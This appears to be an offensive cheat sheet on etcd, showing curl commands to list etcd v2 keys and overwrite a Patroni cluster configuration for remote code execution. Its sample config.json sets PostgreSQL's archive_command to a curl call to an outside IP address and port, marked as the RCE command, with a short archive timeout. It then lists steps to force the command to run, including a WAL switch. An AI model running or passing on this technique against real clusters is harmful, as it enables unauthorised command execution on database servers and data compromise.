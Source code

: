 # Etcd

### Check v2 api keys

`curl -s localhost:2379/v2/keys/?recursive=true | jq`&#x20;



### Update Patroni cluster config for RCE

**Get config**

`curl -s http://localhost:2379/v2/keys/service/<CLUSTER_NAME>/config | jq`

**Update config**

`curl -s -X PUT http://localhost:2379/v2/keys/service/<CLUSTER_NAME>/config`\
`-d value="$(jq -c . config.json)" | jq`

_or with url encode_

`curl -X PUT http://localhost:2379/v2/keys/service/test-cluster/config --data-urlencode value@config.json | jq`

_config.json:_

```json
{
  "ttl": 30,
  "loop_wait": 10,
  "retry_timeout": 10,
  "maximum_lag_on_failover": 1048576,
  "postgresql": {
    "use_pg_rewind": true,
    "parameters": {
      "archive_command": "curl http://158.160.117.132:1337", // command for RCE
      "archive_mode": "always",
      "archive_timeout": "10", // period for command execution
      "max_connections": 550,
      "max_locks_per_transaction": 512,
      "max_worker_processes": 27
    }
  }
}
```

Archive command is needed to backup wal in postgres. Every time a certain amount of data is reached (can also be configured in the config) wal is archived by executing `archive_command`

_the archive\_command trigger requires_\
1\) Generate enough traffic to write to the database

2\) Trigger `archive_timeout`,

3\) Execute the `SELECT pg_switch_wal();` command, for force archives the wal
